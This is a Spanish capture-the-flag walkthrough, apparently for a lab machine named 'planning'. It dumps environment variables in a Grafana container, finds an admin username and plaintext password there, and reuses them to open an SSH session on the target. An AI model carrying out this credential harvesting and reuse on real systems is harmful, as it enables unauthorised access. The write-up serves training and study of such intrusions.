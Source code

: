 
# Intrusión / Explotación - `planning`
---
## Credentials Leakage

Si ejecutamos el comando `env` para listar las variables de entorno asignadas en este sistema, veremos credenciales para un usuario en las variables `GF_SECURITY_ADMIN_USER/PASSWORD` 

~~~ bash
root@7ce659d667d7:~# env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
TERM=xterm
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
~~~


## Shell as `enzo` - `planning`

Utilizaremos estas credenciales para obtener una consola a través de `ssh`

~~~ bash
ssh enzo@10.10.11.68
enzo@10.10.11.68\'s password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun May 11 04:52:14 PM UTC 2025

  System load:  0.21              Processes:             272
  Usage of /:   65.3% of 6.30GB   Users logged in:       0
  Memory usage: 42%               IPv4 address for eth0: 10.10.11.68
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

~~~